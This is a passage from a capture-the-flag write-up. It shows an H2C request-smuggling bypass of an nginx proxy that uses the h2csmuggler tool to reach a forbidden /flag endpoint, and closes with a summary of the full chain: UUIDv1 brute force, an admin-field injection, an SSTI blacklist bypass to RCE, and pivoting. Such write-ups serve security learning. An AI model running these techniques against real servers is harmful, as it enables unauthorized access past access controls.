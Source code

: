 Request to `/flag` is forbidden:

```
curl -k https://nginx:8888/flag
# <html>...<h1>403 Forbidden</h1>...</html>
```

But the config is vulnerable to **H2C Smuggling** ([BishopFox blog](https://bishopfox.com/blog/h2c-smuggling-request)), since `Upgrade` and `Connection` headers are blindly forwarded and the backend server uses `HTTP/1.1`.

![]({{ page.img_path }}2554eaea51c8480d9df4c77a86dfa28d.png)


So we can download the [h2csmuggler tool](https://github.com/BishopFox/h2csmuggler), upload it, then:

```bash
python3 h2csmuggler.py -x https://nginx:8888 --test
# [INFO] h2c stream established successfully.
```

Seems to work !

Exploit:

```bash
python3 h2csmuggler.py -x https://nginx:8888 http://127.0.0.1/flag
:status: 200
content-type: text/plain; charset=utf-8
content-length: 32

SHLK{0m6_y0u_4r3_1n_7h3_b4ck3nd}
```

We got the flag !

---

## TL;DR

* UUIDv1: Brute-force all user IDs using timestamps and profile URL.
* Arbitrary profile field: Set `is_super_mega_powerfull_admin` for admin features.
* Python SSTI: Blacklist bypass, gain RCE.
* Network pivoting with H2C Smuggling: Abuses nginx reverse proxy misconfiguration, direct access to `/flag`.

---
